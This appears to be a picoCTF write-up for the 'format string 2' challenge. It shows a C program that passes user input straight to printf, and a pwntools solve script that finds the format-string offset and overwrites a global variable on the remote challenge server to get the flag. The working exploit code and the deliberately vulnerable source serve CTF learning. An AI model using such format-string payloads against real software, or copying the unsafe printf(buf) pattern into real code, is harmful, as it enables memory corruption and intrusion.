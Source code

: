# format string 2


This challenge from [picoCTF](https://play.picoctf.org/practice/challenge/448) asks us to change the content of a variable to retrieve the flag.


First, let's look at the source code:
```c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```

We can see that we need to set the `sus` value from `0x21737573` to `0x67616c66`. 
And like in the first challenge, our input is directly set in printf without preformating.

We can retrieve the `sus` adress using  the [pwntools FmtStr class](https://docs.pwntools.com/en/stable/fmtstr.html)

```py
from pwn import *

binary = './vuln'
elf = context.binary = ELF(binary)

def test_payload(payload):
    process_instance = elf.process()
    process_instance.sendline(payload)
    output = process_instance.recvall()
    process_instance.close()
    return output

fmt = FmtStr(test_payload)
offset = fmt.offset

log.info(f"Address of 'sus': {elf.symbols['sus']:x}")
```

```
[*] Address of 'sus': 404060
```


We can then get the flag on the remote with:

```py
p.sendline(fmtstr_payload(offset, {elf.symbols['sus']: 0x67616c66}))
```

# Solve

```py
from pwn import *

binary = './vuln'
elf = context.binary = ELF(binary)

def test_payload(payload):
    process_instance = elf.process()
    process_instance.sendline(payload)
    output = process_instance.recvall()
    process_instance.close()
    return output

fmt = FmtStr(test_payload)
offset = fmt.offset

log.info(f"Address of 'sus': {elf.symbols['sus']:x}")

p = remote('rhea.picoctf.net', 53666)
p.sendline(fmtstr_payload(offset, {elf.symbols['sus']: 0x67616c66}))
p.interactive()
```